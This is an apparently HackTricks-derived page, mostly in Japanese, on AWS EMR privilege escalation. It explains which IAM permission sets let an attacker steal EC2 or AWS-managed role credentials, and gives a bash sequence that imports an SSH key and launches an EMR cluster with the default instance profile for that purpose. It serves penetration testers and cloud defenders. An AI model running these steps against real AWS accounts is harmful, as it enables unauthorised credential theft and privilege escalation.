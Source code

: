 # AWS - EMR Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EMR

More **info about EMR** in:

{{#ref}}
../aws-services/aws-emr-enum.md
{{#endref}}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

これらの権限を持つ攻撃者は、**EC2ロールをアタッチして新しいEMRクラスターを実行**し、その資格情報を盗もうとすることができます。\
これを行うには、**アカウントにインポートされたsshプライベートキーを知っているか、インポートする必要があり**、**マスターノードでポート22を開くことができる必要があります**（`--ec2-attributes`内の`EmrManagedMasterSecurityGroup`および/または`ServiceAccessSecurityGroup`の属性を使用してこれを行うことができるかもしれません）。
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
**EMRロール**が`--service-role`で指定され、**ec2ロール**が`--ec2-attributes`で指定されていることに注意してください。ただし、この技術はEC2ロールの資格情報を盗むことしかできず（ssh経由で接続するため）、EMR IAMロールを盗むことはできません。

**潜在的な影響:** 指定されたEC2サービスロールへの権限昇格。

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

これらの権限を持つ攻撃者は、**AWSコンソール**にアクセスし、ノートブックを作成してそれにアクセスし、IAMロールを盗むことができます。

> [!CAUTION]
> ノートブックインスタンスにIAMロールをアタッチしても、私のテストではAWS管理の資格情報を盗むことができ、関連するIAMロールに関連する資格情報は盗めないことに気付きました。

**潜在的な影響:** AWS管理ロールarn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfileへの権限昇格。

### `elasticmapreduce:OpenEditorInConsole`

この権限だけで、攻撃者は**Jupyterノートブックにアクセスし、それに関連するIAMロールを盗む**ことができます。\
ノートブックのURLは`https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`です。

> [!CAUTION]
> ノートブックインスタンスにIAMロールをアタッチしても、私のテストではAWS管理の資格情報を盗むことができ、関連するIAMロールに関連する資格情報は盗めないことに気付きました。

**潜在的な影響:** AWS管理ロールarn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfileへの権限昇格。

{{#include ../../../banners/hacktricks-training.md}}
